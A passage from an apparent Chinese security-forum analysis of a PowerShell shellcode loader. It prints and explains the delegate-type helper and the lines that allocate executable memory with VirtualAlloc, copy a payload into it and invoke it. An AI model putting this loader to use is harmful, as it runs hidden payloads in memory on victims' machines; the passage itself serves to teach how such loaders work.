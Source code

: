 第二个方法：func\_get\_delegate\_type

```php
​  
function func\_get\_delegate\_type {  
    Param (  
        \[Parameter(Position = 0, Mandatory = $True)\] \[Type\[\]\] $var\_parameters,  
        \[Parameter(Position = 1)\] \[Type\] $var\_return\_type = \[Void\]  
    )  
​  
    $var\_type\_builder = \[AppDomain\]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), \[System.Reflection.Emit.AssemblyBuilderAccess\]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', \[System.MulticastDelegate\])  
    $var\_type\_builder.DefineConstructor('RTSpecialName, HideBySig, Public', \[System.Reflection.CallingConventions\]::Standard, $var\_parameters).SetImplementationFlags('Runtime, Managed')  
    $var\_type\_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var\_return\_type, $var\_parameters).SetImplementationFlags('Runtime, Managed')  
​  
    return $var\_type\_builder.CreateType()  
}
```

这两个方法都看完了，我们回到上面的五句逻辑代码：

```php
    $var\_va = \[System.Runtime.InteropServices.Marshal\]::GetDelegateForFunctionPointer((func\_get\_proc\_address kernel32.dll VirtualAlloc), (func\_get\_delegate\_type @(\[IntPtr\], \[UInt32\], \[UInt32\], \[UInt32\]) (\[IntPtr\])))  
    $var\_buffer = $var\_va.Invoke(\[IntPtr\]::Zero, $var\_code.Length, 0x3000, 0x40)  
    \[System.Runtime.InteropServices.Marshal\]::Copy($var\_code, 0, $var\_buffer, $var\_code.length)  
​  
    $var\_runme = \[System.Runtime.InteropServices.Marshal\]::GetDelegateForFunctionPointer($var\_buffer, (func\_get\_delegate\_type @(\[IntPtr\]) (\[Void\])))  
    $var\_runme.Invoke(\[IntPtr\]::Zero)
```

第一句这里其实就是调用System.Runtime.InteropServices.Marshal对象的GetDelegateForFunctionPointer方法，传入VirtualAlloc的函数地址以及一个我们构造的委派类型，我们来看下这个方法是干啥的：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-04dfa40a7c160671dd04d852228fd4520f98d2bf.png)

所以第一句就是将我们传入的VirtuaAlloc非托管函数指针转换成我们第二个参数中构造的委托类型的委托。为什么要这么做呢？

因为windows 的api在不是基于.net的，这里称不是基于.net的api，也就是第三方的api，称为非托管函数；所以我们在powershell中要调用VirtualAlloc这个win api的时候，我们不能直接通过非托管函数调用，那么怎么调用呢，调用的方法之一就是这里的通过GetDelegateForFunctionPointer方法将非托管函数指针转换成委托实例来调用。

如下的第二句话就是通过反射调用第一句中的委托：就相当于调用VirtualAlloc这个api，开辟了一个上面var\_code大小的空间。返回该地址的基址给var\_buffer

$var\_buffer = $var\_va.Invoke(\[IntPtr\]::Zero, $var\_code.Length, 0x3000, 0x40)

如下的第三句话：调用System.Runtime.InteropServices.Marshal的Copy方法，将var\_code字节数组里面的值复制到刚刚开辟出来的var\_buffer空间中。

`[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)`

至此，我们的dll文件就写到了该进程的运行内存中：
